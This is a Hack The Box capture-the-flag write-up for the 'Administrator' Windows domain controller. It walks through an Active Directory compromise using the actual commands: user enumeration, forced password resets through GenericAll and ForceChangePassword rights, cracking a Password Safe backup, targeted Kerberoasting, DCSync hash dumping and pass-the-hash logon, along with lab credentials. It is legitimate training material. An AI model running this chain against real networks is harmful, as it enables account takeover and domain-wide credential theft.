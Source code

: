 ```yaml
---
title: administrator.htb
date: 2025-02-26 
categories: [hackthebox]
tags: [windows, ad, ctf, htb, medium]
---
```


Administrator is a medium windows box on hackthebox.
We start of credentials provided to us for enumeration.

*As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: `Olivia` Password: `ichliebedich`*

## User flag
### nmap scan

Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-06 22:40 CET
Nmap scan report for 10.10.11.42
Host is up (0.029s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-07 04:40:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

This looks like a standard windows box with all usuall ports running on a domain controller. One thing stand out is the ftp port.
### smb enumeration

Using nxc we can enumerate existing users.

```bash
nxc smb 10.10.11.42 -u "Olivia" -p 'ichliebedich' --rid-brute
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.10.11.42     445    DC               498: ADMINISTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)                                                                                                                         
SMB         10.10.11.42     445    DC               500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB         10.10.11.42     445    DC               501: ADMINISTRATOR\Guest (SidTypeUser)
SMB         10.10.11.42     445    DC               502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB         10.10.11.42     445    DC               512: ADMINISTRATOR\Domain Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               513: ADMINISTRATOR\Domain Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               514: ADMINISTRATOR\Domain Guests (SidTypeGroup)
SMB         10.10.11.42     445    DC               515: ADMINISTRATOR\Domain Computers (SidTypeGroup)
SMB         10.10.11.42     445    DC               516: ADMINISTRATOR\Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               517: ADMINISTRATOR\Cert Publishers (SidTypeAlias)
SMB         10.10.11.42     445    DC               518: ADMINISTRATOR\Schema Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               519: ADMINISTRATOR\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               520: ADMINISTRATOR\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.42     445    DC               521: ADMINISTRATOR\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               522: ADMINISTRATOR\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               525: ADMINISTRATOR\Protected Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               526: ADMINISTRATOR\Key Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               527: ADMINISTRATOR\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               553: ADMINISTRATOR\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.42     445    DC               571: ADMINISTRATOR\Allowed RODC Password Replication Group (SidTypeAlias)                                                                                                                         
SMB         10.10.11.42     445    DC               572: ADMINISTRATOR\Denied RODC Password Replication Group (SidTypeAlias)                                                                                                                          
SMB         10.10.11.42     445    DC               1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB         10.10.11.42     445    DC               1101: ADMINISTRATOR\DnsAdmins (SidTypeAlias)
SMB         10.10.11.42     445    DC               1102: ADMINISTRATOR\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.42     445    DC               1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB         10.10.11.42     445    DC               1109: ADMINISTRATOR\michael (SidTypeUser)
SMB         10.10.11.42     445    DC               1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB         10.10.11.42     445    DC               1111: ADMINISTRATOR\Share Moderators (SidTypeAlias)
SMB         10.10.11.42     445    DC               1112: ADMINISTRATOR\emily (SidTypeUser)
SMB         10.10.11.42     445    DC               1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB         10.10.11.42     445    DC               3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB         10.10.11.42     445    DC               3602: ADMINISTRATOR\emma (SidTypeUser)


```

I tried password spraying with the enumerated users and the initial password which was not successfull.

### bloodhound enumeration

Next we try to enumerate the server using bloodhound which shows us visually which user accounts exist and how those might be used to escalate privilegges.

```bash
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 14S
```


The account of olivia has GenericAll rights to the account of Michael. 
"GenericAll" is a powerful permission in Windows Active Directory that grants full control over an object.



And the account of Micheal has the "ForceChangePassword" rights to change the password of Benjamin. 


Knowing this we first can take over Michaels account and then set a password for Benjamin.

```bash
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "12345678"
[+] Password changed successfully!

bloodyAD -u "Michael" -p "12345678" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```


After changing the password I tried to login with both account using evil-winrm which didn't work. But we still have the ftp port found from the inital nmap scan. Using the credentials we set for Benjamin we are able to login using the ftp service.

```bash

ftp administrator.htb           
 
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:kali): Benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||62217|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
```


The ftp server contains a backup files which ends in .psafe3. After a quick google search it seems that this is a file format used by a password manager. As in many ctfs I've seen before the file most likely is password protected and encrypted. We can try to crack the password.
First we need the hash which we get with the program "pwsafe2john".
```bash
pwsafe2john Backup.psafe3  
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa
```

Afterwards we try to crack the password using john and the wordlist rockyou.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is indeed present in the rockyou files. Afterwards we can open the .psafe3 file using "Password Safe" which can be installed on kali using apt.
We get a total of 3 usernames and their passwords.

```bash
alexander:UrkIbagox
emily:UXLCI5iETUsI
emma:WwANQWnmJnGV0
```

One of those accounts can be used to login to the server using evil-winrm.
```bash
evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsI"
```

   
## Root flag

Running bloodhound again we see that emily has "GenericWrite" rights to the account of Ethan.
![[Pasted image 20250323121721.png]]

We can run a kerberoast attack and get the hash of Ethan. Which afterwards can be cracked. 

```bash
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsI" -d "Administrator.htb" --dc-ip 10.10.11.42

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Ethan has the "DSync" rights which means we can dump all the password hashes present on the server and use the passthehash technique using the hash of the administrator account an logon to the server with admin rights.

![[Pasted image 20250323122045.png]]


```bash
└─# impacket-secretsdump "Administrator.htb/ethan:"@"dc.Administrator.htb"


evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9fd20b"
   
```

## Summary

This medium-difficulty Windows machine emulates a real-world enterprise environment with a heavy focus on **Active Directory (AD)** exploitation. The challenge required thorough enumeration, abuse of AD misconfigurations, and lateral movement techniques commonly seen in real life scenarios used by red teamers. 

